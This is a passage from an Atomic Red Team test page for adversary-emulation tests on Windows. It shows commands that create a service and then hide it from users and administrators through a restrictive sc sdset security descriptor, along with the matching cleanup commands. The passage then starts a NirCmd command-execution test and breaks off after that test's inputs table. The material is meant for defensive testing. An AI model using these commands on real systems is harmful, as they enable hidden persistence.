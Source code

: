 **Supported Platforms:** Windows


**auto_generated_guid:** 333c7de0-6fbe-42aa-ac2b-c7e40b18246a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| service_name | Name of service to create | string | AtomicService|
| executable_command | Command to execute as a service | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc.exe create #{service_name} binPath= "#{executable_command}"
sc sdset #{service_name} "D:(D;;DCLCWPDTSD;;;IU)(D;;DCLCWPDTSD;;;SU)(D;;DCLCWPDTSD;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
```

#### Cleanup Commands:
```cmd
sc sdset #{service_name} "D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)S:(AU;FA;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;WD)"
sc.exe delete #{service_name}
```





<br/>
<br/>

## Atomic Test #5 - Command Execution with NirCmd
NirCmd is used by threat actors to execute commands, which can include recon and privilege escalation via running commands via the SYSTEM account
See https://www.kroll.com/en/insights/publications/cyber/black-basta-technical-analysis

**Supported Platforms:** Windows


**auto_generated_guid:** 2748ab4a-1e0b-4cf2-a2b0-8ef765bec7be





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| nircmd_location | Location of nircmd executable | Path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;nircmd.exe|
| command_to_execute | Command for nircmd to execute | Path | win child class "Shell_TrayWnd" hide class "TrayClockWClass"|
| cleanup_command_to_execute | Cleanup command to undo the arbitrary command ran by nircmd | Path | win child class "Shell_TrayWnd" show class "TrayClockWClass"|
